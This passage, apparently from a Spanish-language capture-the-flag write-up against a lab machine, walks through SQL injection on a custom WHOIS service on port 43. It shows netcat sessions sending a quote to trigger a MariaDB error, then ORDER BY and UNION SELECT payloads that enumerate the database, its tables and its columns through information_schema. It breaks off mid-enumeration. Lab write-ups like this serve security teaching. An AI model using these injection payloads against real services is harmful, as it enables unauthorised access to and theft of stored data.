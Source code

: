 Al conectarnos a `whois` a traves de telnet, vemos que utiliza como base de datos el servicio de `mariadb`.

```bash
❯ telnet 10.10.10.155 43
Trying 10.10.10.155...
Connected to 10.10.10.155.
Escape character is '^]'.
 
% SUPERSECHOSTING WHOIS server v0.6beta@MariaDB10.1.37
% for more information on SUPERSECHOSTING, visit http://www.supersechosting.htb
% This query returned 0 object
Connection closed by foreign host.
```

El servicio `WHOIS` siempre necesita utilizar una base de datos para almacenar y extraer la información. Por lo tanto, una posible `SQLInjection` podría funcionar al consultar la base de datos.

```bash
❯ nc 10.10.10.155 43
'
% SUPERSECHOSTING WHOIS server v0.6beta@MariaDB10.1.37
% for more information on SUPERSECHOSTING, visit http://www.supersechosting.htb
1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '''') limit 1' at line 1
```

Mandamos una `'` en la consulta y vemos que recibimos un error de `sql`. 

```bash
❯ nc 10.10.10.155 43
') ORDER BY 2#
% SUPERSECHOSTING WHOIS server v0.6beta@MariaDB10.1.37
% for more information on SUPERSECHOSTING, visit http://www.supersechosting.htb
% This query returned 0 object
```

Vamos a proceder a enumear la base de datos.

```bash
❯ nc 10.10.10.155 43
') UNION SELECT database(), 2#
% SUPERSECHOSTING WHOIS server v0.6beta@MariaDB10.1.37
% for more information on SUPERSECHOSTING, visit http://www.supersechosting.htb
% This query returned 1 object
whois

❯ nc 10.10.10.155 43
') UNION SELECT table_name,2 from information_schema.tables where table_schema='whois'#
% SUPERSECHOSTING WHOIS server v0.6beta@MariaDB10.1.37
% for more information on SUPERSECHOSTING, visit http://www.supersechosting.htb
% This query returned 1 object
customers

❯ nc 10.10.10.155 43
') UNION SELECT column_name, 2 from information_schema.columns where table_name="customers" and table_schema="whois" LIMIT 0,1#
% SUPERSECHOSTING WHOIS server v0.6beta@MariaDB10.1.37
% for more information on SUPERSECHOSTING, visit http://www.supersechosting.htb
% This query returned 1 object
id^C

❯ nc 10.10.10.155 43
') UNION SELECT column_name, 2 from information_schema.columns where table_name="customers" and table_schema="whois" LIMIT 1,1#
% SUPERSECHOSTING WHOIS server v0.6beta@MariaDB10.1.37
% for more information on SUPERSECHOSTING, visit http://www.supersechosting.htb
% This query returned 1 object
```